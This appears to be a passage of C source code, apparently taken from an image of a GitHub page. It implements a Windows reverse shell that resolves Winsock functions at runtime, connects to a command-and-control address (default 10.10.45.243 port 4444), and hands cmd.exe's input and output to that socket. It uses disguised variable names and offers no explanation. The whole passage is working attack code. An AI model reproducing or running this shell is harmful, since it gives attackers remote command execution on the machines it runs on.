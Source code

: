 ```c
        WSACONNECT myWSAConnect = (WSACONNECT) GetProcAddress(hws2_32,"WSAConnect");
        WSASTARTUP myWSAStartup = (WSASTARTUP) GetProcAddress(hws2_32, "WSAStartup");
        WSASOCKETA myWSASocketA = (WSASOCKETA) GetProcAddress(hws2_32, "WSASocketA");
        INET_ADDR myinet_addr = (INET_ADDR) GetProcAddress(hws2_32, "inet_addr");
        HTONS myhtons = (HTONS) GetProcAddress(hws2_32, "htons");
        CLOSESOCKET myclosesocket = (CLOSESOCKET) GetProcAddress(hws2_32, "closesocket");
        WSACLEANUP myWSACleanup = (WSACLEANUP) GetProcAddress(hws2_32, "WSACleanup"); 

        SOCKET mySocket;
        struct sockaddr_in addr;
        WSADATA version;
        myWSAStartup(MAKEWORD(2,2), &version);
        mySocket = myWSASocketA(AF_INET, SOCK_STREAM, IPPROTO_TCP, 0, 0, 0);
        addr.sin_family = AF_INET;

        addr.sin_addr.s_addr = myinet_addr(C2Server);
        addr.sin_port = myhtons(C2Port);

        if (myWSAConnect(mySocket, (SOCKADDR*)&addr, sizeof(addr), 0, 0, 0, 0)==SOCKET_ERROR) {
            myclosesocket(mySocket);
            myWSACleanup();
        } else {
            printf("Connected to %s:%d\\n", C2Server, C2Port);

            char Nature[] = "cmd.exe";
            STARTUPINFO project;
            PROCESS_INFORMATION hammer;
            memset(&project, 0, sizeof(project));
            project.cb = sizeof(project);
            project.dwFlags = (STARTF_USESTDHANDLES | STARTF_USESHOWWINDOW);
            project.hStdInput = project.hStdOutput = project.hStdError = (HANDLE) mySocket;
            CreateProcess(NULL, Nature, NULL, NULL, TRUE, 0, NULL, NULL, &project, &hammer);

            printf("Process Created %lu\\n", hammer.dwProcessId);

            WaitForSingleObject(hammer.hProcess, INFINITE);
            CloseHandle(hammer.hProcess);
            CloseHandle(hammer.hThread);
        }
}

int main(int argc, char **argv) {
    if (argc == 3) {
        int port  = atoi(argv[2]);
        RunShell(argv[1], port);
    }
    else {
        char host[] = "10.10.45.243";
        int port = 4444;
        RunShell(host, port);
    }
    return 0;
} 
```
